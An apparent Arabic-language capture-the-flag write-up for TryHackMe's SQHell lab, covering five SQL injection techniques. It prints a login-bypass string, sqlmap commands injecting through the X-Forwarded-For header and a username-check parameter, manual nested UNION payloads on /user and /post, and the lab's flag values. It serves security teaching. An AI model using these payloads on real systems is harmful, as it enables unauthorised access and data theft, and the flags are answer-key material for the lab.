<div dir="rtl" style="text-align: right; width: 100%; word-wrap: break-word; overflow-wrap: break-word; line-height: 2; letter-spacing: 0.2px;">

<p align="center">
  
</p>

# Machine Information

- **Machine Name**: SQHell
- **Platform**: TryHackMe
- **Difficulty**: Medium
- **Topics Covered**: Web Enumeration, SQL Injection (Authentication Bypass, Blind/Time-based SQLi, UNION-based SQLi), Manual & Automated Exploitation with sqlmap.

---

# Lab Overview

المشين دي مش عن Root Access زي الماشينز التقليدية، دي عبارة عن (CTF-style Web Application) اسمها SQHell ومبنية بالكامل عشان تعلّمنا أنواع الـ SQL Injection المختلفة. فيه 5 Flags متوزعة على أماكن مختلفة في التطبيق، وكل Flag بتمثل نوع مختلف من الـ Injection، يعني إحنا مش بنستغل ثغرة واحدة وخلاص، إحنا بنمر على رحلة كاملة من الـ Authentication Bypass البسيط لحد الـ Blind SQL Injection عن طريق الـ HTTP Headers، وصولاً للـ UNION-based SQL Injection اليدوي.

---

# Initial Enumeration

# Phase 1: Network Scanning

## Execution Parameters
```bash
nmap -p- --min-rate 5000 10.129.160.119 -oN open_ports.txt
```

## Evidence & Outputs
<p align="center">
  
</p>

## Technical Analysis

* **Findings**: فيه بورتين مفتوحين بس، `22/tcp` شغال عليه `ssh`، و `80/tcp` شغال عليه `http`.
* **Impact**: مفيش أي خدمات تانية غريبة أو مثيرة للاهتمام، يبقى الهجوم هيكون بالكامل عن طريق الـ Web Application اللي شغالة على بورت 80.
* **Assessment & Conclusions**: بما إن الـ SSH مش معاه أي Credentials معروفة دلوقتي، يبقى نقطة الدخول الوحيدة المتاحة هي الموقع نفسه.

## Next Logical Step

فحص الـ Web Application وعمل Directory/Content Discovery لمعرفة الـ Endpoints المتاحة في التطبيق.

---

# Phase 2: Web Content Discovery

## Execution Parameters
```bash
dirsearch -u http://10.129.160.119
```

## Evidence & Outputs
<p align="center">
  
</p>

## Technical Analysis

* **Findings**: الأداة رجعتلنا 4 Endpoints أساسية بترجع كود `200`: `/login`, `/post`, `/register`, و `/user`.
  
* **Impact**: الـ Endpoints دي بتدي إشارة واضحة إن التطبيق فيه نظام Users كامل (Login/Register) ونظام Posts (Blog)، وده معناه غالباً فيه Parameters بتتبعت للـ Database بشكل مباشر.
  
* **Assessment & Conclusions**: كل Endpoint من دول هيبقى نقطة اختبار محتملة لثغرات الـ SQL Injection، وهنبدأ نفحصهم واحد واحد.

## Next Logical Step

فتح التطبيق يدوياً في المتصفح لمعاينة الشكل العام وفهم طبيعة الـ Blog والـ Posts المتاحة.

---

# Phase 3: Manual Application Walkthrough

## Execution Parameters

*(Manual browsing via the web browser to map application structure and functionality)*

## Evidence & Outputs
<p align="center">
  
</p>

## Technical Analysis

* **Findings**: الصفحة الرئيسية عبارة عن "My Blog" فيها Posts منشورة بواسطة يوزر اسمه `admin`، وفيه رابط في الأسفل اسمه `Terms & Conditions`، وكمان أزرار `Login` و `Register` في الأعلى.
* **Impact**: كل نقطة من دول (الـ Login form، رابط الـ Terms & Conditions، والـ Posts نفسها) بتاخد Input ممكن تتفحص لثغرات الـ SQLi.
* **Assessment & Conclusions**: التطبيق فيه أكتر من نقطة دخول محتملة، فهنبدأ بالأسهل وهو نافذة تسجيل الدخول (Login Form).

## Next Logical Step

اختبار حقول اليوزرنيم والباسورد في صفحة الـ Login بمحاولة Bypass كلاسيكي للـ Authentication.

---

# Vulnerability Analysis & Exploitation

# Phase 4: Flag 1 — Authentication Bypass via SQL Injection

## Execution Parameters
```
Username: ' or 1=1 -- -
Password: (empty)
```

## Evidence & Outputs
<p align="center">
  
</p>
<p align="center">
  
</p>

## Technical Analysis

* **Findings**: الاستعلام اللي التطبيق بيعمله على الأغلب بيبقى شكله كدا:
  `SELECT * FROM users WHERE username = '$username' AND password = '$password'`
  وبإدخال `' or 1=1 -- -` في خانة اليوزرنيم، الـ Query بيتحول لـ `WHERE username = '' or 1=1 -- -' AND password = ''`، وبما إن `1=1` دايماً True، الشرط بيتحقق ويتم تجاوز التحقق بالكامل.
* **Impact**: ده مثال كلاسيكي على (Authentication Bypass via SQL Injection)، وأدى بشكل مباشر للدخول كأول يوزر موجود في الجدول والحصول على `Flag 1`: `THM{FLAG1:E786483E5A53075750F1FA792E823BD2}`.
* **Assessment & Conclusions**: الحقن ده بسيط لأنه Error-based/Logic-based وواضح، لكن ده مؤشر خطير إن باقي التطبيق ممكن يبقى معرض لنفس المشكلة، وباقي الـ Endpoints غالباً هتحتاج طرق Injection أعمق.

## Pentester Rationale

اختبار الـ Payloads الكلاسيكية زي `' or 1=1 -- -` هو أول حاجة أي Pentester بيجربها على أي Login Form قبل ما يستخدم أدوات آلية، لأنها بتكشف بسرعة لو التطبيق مبنى بطريقة غير آمنة (String Concatenation بدون Parameterized Queries).

## Alternative Attack Vectors

* `admin' -- -`
* `" or 1=1 -- -` (لو الـ Query بتستخدم Double Quotes)

## Next Logical Step

الانتقال لصفحة الـ `Terms & Conditions` واختبار الـ HTTP Headers للبحث عن Injection Points غير مباشرة (Blind SQLi).

---

# Phase 5: Flag 2 — Blind SQL Injection via HTTP Header (X-Forwarded-For)

## Execution Parameters
```bash
sqlmap --dbms=mysql --headers="X-Forwarded-For: 1*" -u http://10.129.160.119/terms-and-conditions --dbs --batch
```

## Evidence & Outputs
<p align="center">
  
</p>
<p align="center">
  
</p>

## Technical Analysis

* **Findings**: التطبيق بيسجل الـ IP بتاع الزائر عن طريق قراءة الـ Header بتاع `X-Forwarded-For` ومن غير ما يعمله أي `Sanitization`، وسقلماب أكد إن الباراميتر ده Injectable وإن الـ Back-end DBMS هو MySQL (نسخة 5.0.12 فما فوق) عن طريق Time-based Blind technique.
  
* **Impact**: ده يبين إن الثغرة مش لازم تبقى في الـ GET/POST Parameters بس، ممكن تبقى في أي Header بيتقرأ ويتخزن في الـ Database زي `X-Forwarded-For`، `User-Agent`، `Referer`.. إلخ. ده معناه إن أي حد يقدر يزور الـ Header ده ويحقن كود SQL من غيره ما يحتاج حتى يدخل بيانات في فورم ظاهر.
  
* **Assessment & Conclusions**: بما إننا أثبتنا إن الـ Injection شغال، الخطوة الجاية هي استخدام سقلماب في استخراج أسماء الـ Databases والجداول والأعمدة المخزنة، وبالفعل ظهرت قاعدة بيانات باسم `sqhell_1`.

## Pentester Rationale

استخدام سقلماب هنا بدل الاستغلال اليدوي كان قرار منطقي، لأن الثغرة دي من نوع (Time-based Blind) واللي بتحتاج آلاف الطلبات لاستخراج البيانات حرف حرف، وده مستحيل يتعمل يدوياً بكفاءة.

## Alternative Attack Vectors

* حقن باراميترات أخرى زي `User-Agent` أو `Referer` بنفس الطريقة.
* استخدام `Burp Suite Intruder` لعمل Manual Time-based Testing.

## Next Logical Step

بما إن قاعدة البيانات `sqhell_1` ظهرت، الخطوة الجاية استكمال الـ Dump على جدول الـ `flag` نفسه لاستخراج قيمة الـ Flag رقم 2.

---

# Phase 6: Flag 2 — Dumping the Flag Table

## Execution Parameters
```bash
sqlmap --dbms=mysql --headers="X-Forwarded-For: 1*" -u http://10.130.140.213/terms-and-conditions -D sqhell_1 -T flag --dump
```

## Evidence & Outputs
<p align="center">
  
</p>
<p align="center">
  
</p>

## Technical Analysis

* **Findings**: عن طريق تحديد الـ Database والـ Table بشكل مباشر لسقلماب (`-D sqhell_1 -T flag --dump`)، تم استخراج محتوى جدول `flag` كاملاً، وطلع بيه صف واحد (Row) قيمته: `THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15}`.
  
* **Impact**: ده بيأكد إن كل Flag في الماشين دي متخزنة في جدول منفصل اسمه `flag` جوه كل Database، وبمجرد ما نقدر نعمل Injection في أي مكان، نقدر نوصل للجدول ده بسهولة.
  
* **Assessment & Conclusions**: تم الحصول على `Flag 2` بنجاح عن طريق (Header-based Blind SQL Injection). دلوقتي محتاجين نلاقي نقاط Injection تانية في باقي الـ Endpoints (`/register`, `/user`, `/post`) لاستخراج باقي الـ Flags.

## Next Logical Step

فحص صفحة الـ Register، وتحديداً أي Endpoint فرعي بيتعامل مع التحقق من اليوزرنيم (زي `user-check`)، لاختبار وجود Injection تاني هناك.

---

# Phase 7: Flag 3 — Blind SQL Injection via Register / User-Check Endpoint

## Execution Parameters
```bash
sqlmap -u "http://10.129.160.119/register/user-check?username=x" --dbms=MySQL --dump --batch
```

## Evidence & Outputs
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>

## Technical Analysis

* **Findings**: صفحة الـ Register بتستخدم نظام (Live Username Availability Check) عن طريق طلب AJAX بيروح لـ Endpoint اسمه `/register/user-check?username=...`، وده باراميتر GET بيتبعت مباشرة لجملة SQL للتحقق هل اليوزرنيم متسجل قبل كدا ولا لأ (زي ما ظهر لما جربنا `abcd` كانت متاحة و`admin` كانت `Username already taken`). سقلماب أكد إن الباراميتر ده Injectable بنفس أسلوب الـ Time-based Blind.
  
* **Impact**: نقطة الـ (Live Validation Endpoints) دي غالباً بتتنسى من المطورين وقت التأمين لأنها مش Form رئيسي، لكنها بتتعامل مع الداتابيز بنفس القدر من الخطورة.
  
* **Assessment & Conclusions**: عن طريق سقلماب اتعمل Dump على جدول `flag` في database `sqhell_3` وطلعت `Flag 3`: `THM{FLAG3:97AEB3B28A4864416718F3A5FA8F308}`، وكمان بدأ سقلماب يجيب أعمدة جدول `users` (`id`, `password`, `username`) استعداداً لأي استخدام إضافي.

## Pentester Rationale

فحص كل Endpoint بيتفاعل مع الداتابيز، حتى لو مش فورم رئيسي زي أزرار الـ Live-check أو الـ Autocomplete، لأن أي Request بيتبعت من غير Input Validation ممكن يبقى نقطة حقن.

## Alternative Attack Vectors

* اختبار الـ Endpoint نفسه عن طريق `Burp Suite Repeater` يدوياً بدل الاعتماد الكلي على سقلماب.

## Next Logical Step

الانتقال لصفحة الـ `/user?id=` واختبار إمكانية عمل UNION-based SQL Injection يدوي بدل الاعتماد على الأدوات الآلية.

---

# Phase 8: Flag 4 — Manual UNION-Based SQL Injection on `/user` Endpoint

## Execution Parameters
```
/user?id=2 union select 1,3,3-- -
/user?id=2 union select 3,3,3-- -
/user?id=2 union select '1 union select 1',2,3-- -
/user?id=2 union select '1 union select 1,2,3',2,3-- -
/user?id=2 union select '1 union select 1,2,3,4',2,3-- -
/user?id=2 union select '2 union select 1,2,3,4',2,3-- -
/user?id=2 union select '2 union select 1,flag,3,4 from flag',2,3-- -
```

## Evidence & Outputs
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>

## Technical Analysis

* **Findings**: التطبيق بيعرض القيمة اللي جاية من العمود التاني (Username) في الصفحة، فبدأنا نستغل ده عن طريق حقن `UNION SELECT` جوه القيمة نفسها اللي بترجع كـ Username. لاحظنا إن الاستعلام الأساسي بيرجع 3 أعمدة، وبتجربة عدد أعمدة الـ UNION الداخلي لحد ما وصلنا لعدد صحيح (4 أعمدة)، وبعدين استبدلنا العمود التاني في الـ Query الداخلي بـ `flag` من جدول `flag` عشان نطلعه في الـ Posts.
  
* **Impact**: ده مثال على (Nested / Second-Order UNION-based SQL Injection)، فين الـ Payload بيتحقن جوه قيمة بترجع من استعلام تاني، وده أعقد من الـ UNION العادي لأنه محتاج فهم دقيق لعدد الأعمدة وترتيبها في أكتر من مستوى.
  
* **Assessment & Conclusions**: بعد سلسلة من التجارب المتدرجة، ظهرت `Flag 4` جوه قائمة الـ Posts بتاعة اليوزر: `THM{FLAG4:BDF317B14EEF80A3F90729BF2B426BEF}`.

## Pentester Rationale

بناء الـ Payload بشكل تدريجي (Column count enumeration خطوة خطوة) هو أسلوب أساسي في أي UNION-based SQLi، لأن أي غلط في عدد الأعمدة أو نوعها بيرجع Error بيوقف الاستغلال تماماً.

## Alternative Attack Vectors

* استخدام `ORDER BY` لتحديد عدد الأعمدة بسرعة بدل التجربة اليدوية بالـ UNION.
* استخدام سقلماب مباشرة على باراميتر `id` لو الوقت مش عامل ضغط.

## Next Logical Step

تطبيق نفس أسلوب الـ UNION-based Injection على Endpoint مشابه وهو `/post?id=` لاستخراج الـ Flag الأخيرة.

---

# Phase 9: Flag 5 — Manual UNION-Based SQL Injection on `/post` Endpoint

## Execution Parameters
```
/post?id=1
/post?id=2
/post?id=3                       -> Post not found
/post?id=3 union select 1,2-- -  -> column count mismatch
/post?id=3 union select 1,2,3,4-- -
/post?id=3 union select 1,flag,3,4 from flag-- -
```

## Evidence & Outputs
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>
<p align="center">
  
</p>

## Technical Analysis

* **Findings**: باراميتر `id` بتاع صفحة `/post` جربنا عليه رقم مش موجود (`id=3`) فرجع "Post not found"، وده مؤشر إن الاستعلام بيتنفذ فعلياً على الداتابيز مش مجرد Static Page. بعد كدا جربنا `UNION SELECT` بعمودين فرجع Error بيقول "The used SELECT statements have a different number of columns"، وده أكد إن فيه Injection شغال وكشف لينا معلومة عن عدد الأعمدة. لما رفعنا العدد لـ 4 أعمدة اشتغلت الصفحة عادي وظهرت القيم اللي بعتناها.
  
* **Impact**: التطبيق مفيهوش أي Error Handling أو Filtering على رسايل الأخطاء بتاعة الداتابيز، وده بيدي الـ Attacker معلومة قيمة جداً (عدد الأعمدة) من غير ما يحتاج حتى أداة آلية زي سقلماب (Error-based enumeration).
  
* **Assessment & Conclusions**: بعد ما ثبتنا عدد الأعمدة (4)، استبدلنا أحد الأعمدة باستعلام فرعي `(select flag from flag)` عشان نطلع قيمة الـ Flag الأخيرة `Flag 5` مباشرة في صفحة الـ Post، وبكدا اكتملت كل الـ 5 Flags المطلوبة في الماشين.

## Pentester Rationale

الاعتماد على رسائل الأخطاء الافتراضية بتاعة الداتابيز (Error-based technique) هي من أسرع الطرق لتحديد عدد الأعمدة قبل استخدام UNION، وده وفر وقت كبير بدل التجربة العشوائية.

## Alternative Attack Vectors

* استخدام تقنية `ORDER BY N-- -` لتحديد عدد الأعمدة بشكل أسرع وأنضف.
* تشغيل سقلماب مباشرة على `/post?id=` لتأكيد النتيجة آلياً.

## Assessment Summary

بعد اجتياز الـ 5 مراحل دول، بقى واضح إن ماشين SQHell هدفها الأساسي إنها توضح إزاي نفس الثغرة (SQL Injection) ممكن تظهر بأشكال مختلفة جداً في نفس التطبيق: 

- مرة كـ **Authentication Bypass** بسيط في Login Form.
- ومرة كـ **Blind/Time-based Injection** مخفية جوه HTTP Header.
- ومرة تانية في Endpoint فرعي زي **Live Username Check**.
- ومرتين كـ **UNION-based Injection** يدوي في Endpoints بترجع بيانات ظاهرة (User Profile / Blog Post).

وده بيأكد إن أي Input بيوصل للداتابيز — سواء كان Form ظاهر، Header، أو حتى AJAX Request صغير — لازم يتعامل معاه بنفس مستوى الحرص والـ Sanitization.

---

# Flags

| Flag | Injection Type | Location / Endpoint | Flag Value |
| --- | --- | --- | --- |
| **Flag 1** | Authentication Bypass (Classic SQLi) | `/login` | `THM{FLAG1:E786483E5A53075750F1FA792E823BD2}` |
| **Flag 2** | Blind / Time-based SQLi (HTTP Header) | `/terms-and-conditions` via `X-Forwarded-For` | `THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15}` |
| **Flag 3** | Blind / Time-based SQLi | `/register/user-check?username=` | `THM{FLAG3:97AEB3B28A4864416718F3A5FA8F308}` |
| **Flag 4** | Nested UNION-based SQLi | `/user?id=` | `THM{FLAG4:BDF317B14EEF80A3F90729BF2B426BEF}` |
| **Flag 5** | Error-based Column Enumeration + UNION-based SQLi | `/post?id=` | `THM{FLAG5:B9C690D3B914F7038BA1FC65B3...}` |

<p align="center">
  
</p>

* OWASP Testing Guide — SQL Injection.
* PortSwigger Web Security Academy — Blind & UNION-based SQL Injection.
* sqlmap Official Documentation.
* TryHackMe - SQHell Room Link.

</div>
